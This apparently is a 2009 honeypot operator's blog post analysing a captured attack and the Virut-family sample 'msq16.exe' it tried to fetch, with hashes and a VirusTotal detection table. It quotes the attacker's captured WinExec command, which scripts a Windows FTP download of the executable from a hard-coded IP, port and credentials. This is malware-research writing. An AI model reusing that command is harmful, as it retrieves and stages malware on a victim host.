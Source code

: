 ```yaml
---
title: "Iteolih: malicious ftp services"
authors: ["Markus Koetter"]
date: "2009-07-26"
tags: 
  - "iteolih"
---
```


Yesterday, I got an incomplete, but successful, attack on my honeypot, the attackers remote code execution looked like this:  

  

**WinExec("cmd /c echo open 78.1.96.200 4871 > o&echo user 1 1 >> o &echo get msq16.exe >> o")  
ExitThread(0)**  

  

  
As the required part to download the malware to the remotehost was incomplete, I got curious and wanted a copy.  

  
  

I did not expect downloading the malware getting a problem, as all information required was available, including host credentials and filename. But, as the ftp service embedded in the malware is still special, it was a problem.  
The ftp service [is designed to work with the windows ftp client](http://nepenthes.carnivore.it/documentation:modules:downloadhandler:download_ftp "nepenthes, ftp download problems"), the windows ftp only provides active ftp, active ftp does not work on nat if the ftp service port is not on default port 21. 
Apart from that, the ftp service may [fail with 6% of all ports](http://nepenthes.carnivore.it/news_archive:2006#a_common_bug "ftp PORT parsing 0xf").

  

I've had the same problems with nepenthes 3 years ago, but had the slight hope the malware authors might have fixed it in the meantime. Obviously I was wrong.

  

As I was looking for a more general solution than using netcat, I scripted a small ftp client in python, using pythons ftplib. Provided your external ip and a forwarded port range, the client is able to download files via active ftp from _Designed for Windows_ ™ ftp services.

  

You can download the script [here](http://svn.carnivore.it/browser/dump/ftpexe.py "ftpexe.py script"), verified to work with python3.x and 2.x.

  

  

After getting the file,

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| msq16.exe |
| --- |
| File size: 550912 bytes |
| MD5   : 8d599fa3d633de4d24dea51af67a61c9 |
| SHA1  : f11188ad9501c1b6cdc051c6cd09776eec5b282e |
| SHA256: 75dd3c06d832a270e0838b3eaf87ad428f3bab16e2599a33c4415dc94362547c |

  

  

I sent it to virustotal.com, here is the report:

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| Antivirus | Version | Last Update | Result |
| --- | --- | --- | --- |
| a-squared | 4.5.0.24 | 2009.07.25 | Trojan.Win32.Refroso!IK |
| AhnLab-V3 | 5.0.0.2 | 2009.07.25 | Win32/Virut.B |
| AntiVir | 7.9.0.228 | 2009.07.24 | W32/Virut.AX |
| Antiy-AVL | 2.0.3.7 | 2009.07.24 | \- |
| Authentium | 5.1.2.4 | 2009.07.25 | W32/Virut.7116 |
| Avast | 4.8.1335.0 | 2009.07.25 | Win32:Virtob |
| AVG | 8.5.0.387 | 2009.07.25 | Win32/Virut |
| BitDefender | 7.2 | 2009.07.25 | Trojan.Generic.2200851 |
| CAT-QuickHeal | 10.00 | 2009.07.25 | W32.Virut.Z |
| ClamAV | 0.94.1 | 2009.07.25 | W32.Virut-54 |
| Comodo | 1741 | 2009.07.25 | Worm.Win32.Email-Worm.generic.daisy-1529 |
| DrWeb | 5.0.0.12182 | 2009.07.25 | Trojan.KeyLogger.2526 |
| eSafe | 7.0.17.0 | 2009.07.23 | \- |
| eTrust-Vet | 31.6.6640 | 2009.07.25 | Win32/Virut.7115 |
| F-Prot | 4.4.4.56 | 2009.07.25 | W32/Virut.7116 |
| F-Secure | 8.0.14470.0 | 2009.07.25 | Virus.Win32.Virut.av |
| Fortinet | 3.120.0.0 | 2009.07.25 | W32/Virut.AV |
| GData | 19 | 2009.07.25 | Trojan.Generic.2200851 |
| Ikarus | T3.1.1.64.0 | 2009.07.25 | Trojan.Win32.Refroso |
| Jiangmin | 11.0.800 | 2009.07.25 | Win32/Virut.af |
| K7AntiVirus | 7.10.802 | 2009.07.25 | Virus.Win32.Virut.av |
| Kaspersky | 7.0.0.125 | 2009.07.25 | Virus.Win32.Virut.av |
| McAfee | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee+Artemis | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee-GW-Edition | 6.8.5 | 2009.07.25 | Heuristic.LooksLike.Trojan.Dropper.J |
| Microsoft | 1.4903 | 2009.07.25 | Virus:Win32/Virut.AC |
| NOD32 | 4277 | 2009.07.25 | Win32/Virut.AV |
| Norman |   
 | 2009.07.24 | W32/Virut.AG |
| nProtect | 2009.1.8.0 | 2009.07.25 | Virus/W32.Virut.K |
| Panda | 10.0.0.14 | 2009.07.25 | W32/Virutas.FG |
| PCTools | 4.4.2.0 | 2009.07.25 | Win32.Virut.Gen.4 |
| Prevx | 3.0 | 2009.07.25 | \- |
| Rising | 21.39.52.00 | 2009.07.25 | Win32.Virut.an |
| Sophos | 4.44.0 | 2009.07.25 | W32/Virut-W |
| Sunbelt | 3.2.1858.2 | 2009.07.25 | Win32.Virut.av (v) |
| Symantec | 1.4.4.12 | 2009.07.25 | W32.Virut.W |
| TheHacker | 6.3.4.3.373 | 2009.07.24 | W32/Virut.av |
| TrendMicro | 8.950.0.1094 | 2009.07.25 | PE\_VIRUT.AV |
| VBA32 | 3.12.10.9 | 2009.07.24 | Virus.Win32.Virut.2 |
| ViRobot | 2009.7.25.1853 | 2009.07.25 | Win32.Virut.S |
| VirusBuster | 4.6.5.0 | 2009.07.25 | Win32.Virut.Gen.4 |
